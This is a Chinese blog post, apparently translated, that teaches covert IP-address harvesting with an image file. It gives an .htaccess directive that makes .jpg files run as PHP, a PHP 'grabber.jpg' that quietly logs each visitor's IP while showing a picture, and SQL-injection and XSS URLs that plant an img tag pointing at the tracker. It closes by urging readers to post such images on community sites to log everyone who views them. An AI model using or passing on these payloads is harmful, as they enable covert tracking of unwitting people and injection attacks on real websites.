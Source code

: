 ```yaml
---
layout: post
title: 如何通过一张照片来获取ip地址？
categories:
- 今日头条
tags:
---
```

				![](http://p3.pstatp.com/large/4860003776ff1320546)

通过对htaccess的利用，实现用一张照片获取他人的ip地址

在本教程中，我们将学习如何用一张照片来盗取ip地址。我的想法是通过修改.htaccess文件，将jpg文件当作php文件来解析。

下面就是我们需要向.htaccess中添加的代码：

AddHandler application/x-httpd-php5 .jpg

然后将下面的代码复制到记事本中，命名为grabber.jpg

<?php$fh = fopen('ip_list.txt', 'a');fwrite($fh, $_SERVER['REMOTE_ADDR']."");fclose($fh);$im = imagecreatefromjpeg("n00b.png");header('Content-Type: image/jpeg');imagejpeg($im);imagedestroy($im);?>

将grabber.jpg的权限设置为755，然后再找一张照片，将其命名为n00b.png，接着放到与grabber.jpg相同的目录之中。

就这样，一切工作就绪了。当别人浏览grabber.jpg这张照片的时候，他的ip地址就会被记录下来。

（译者注：需要把这些东西上传至我们的个人网站空间中）

POC：

(译者注：作者这里贴了一张可获取ip的演示照片，为了大家的隐私，我没有将其贴出，读者可自行去作者博客查看)

至此，我们的照片已经可以开始工作了。

接着我还想说明一下如何使用SQLi来获取ip地址。其实使用照片来盗取ip地址十分快捷，我们没有理由去使用SQLi这种方法，但是为了让读者获取到更多的知识，我还是说明一下吧：

http://leettime.net/sqlninja.com/tasks/basic_ch1.php?id=1' union select 1,0x3c696d67207372633d22687474703a2f2f6c65657474696d652e6e65742f6964696f74735f746573745f6c61622f696d61676569702f7472796d652e6a7067223e,3#

现在，再说一下如何使用xss来获取ip地址：

http://leettime.net/xsslab1/chalg1.php?name=<img src="http://leettime.net/idiots_test_lab/imageip/tryme.jpg">&submit=Search

好了，就是这些了。

我们可以用这个技巧做许多有趣的事情，事实上大部分社区都允许我们发布一些照片，所以我们可以用这个方法去获取所有访问到我们照片的人的ip地址。

想了解更多关于「互联网安全」或「黑客资讯」？请在微信或QQ搜索公众号：互联网安全
